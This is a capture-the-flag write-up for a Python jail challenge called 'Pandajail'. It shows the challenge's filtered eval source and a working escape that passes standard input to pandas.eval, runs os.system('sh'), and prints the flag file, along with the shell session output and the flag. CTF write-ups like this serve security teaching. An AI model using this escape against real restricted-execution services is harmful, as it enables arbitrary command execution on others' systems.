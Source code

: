 # Pandajail

The source code for Pandajail is below:

```python
import pandas
import sys

banned = "[]{}+-,!@#$%^&*;:0123456789'\"<>="

def isvalid(code):
    try:
        assert code.count("_") <= 1
        assert code.count(".") <= 3
        assert not any(c in code for c in banned)
        return True
    except AssertionError as e:
        print(f"Wrong")
        return False

def main():
    code = input(">>> ")
    if isvalid(code):
        try:
            result = eval(code, {"builtins": {}, "pandas": pandas, "sys": sys})
            print(result)
        except Exception as e:
            print(f"Nope")

main()
```

sys has a function `sys.stdin.readline` that reads a line from standard input, and pandas has a function `pandas.eval` that runs Python code.
From there, you could traverse sys.modules to call os.system('sh') and get a shell, then print the flag at /flag.txt.

```
>>> pandas.eval(sys.stdin.readline())
sys.modules['os'].system('sh')
ls
main.py
cd ..
ls
app
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag.txt
FFCTF{p1ckl3_th4t_rc3_l1k3_4_pro_c7ece31a}
```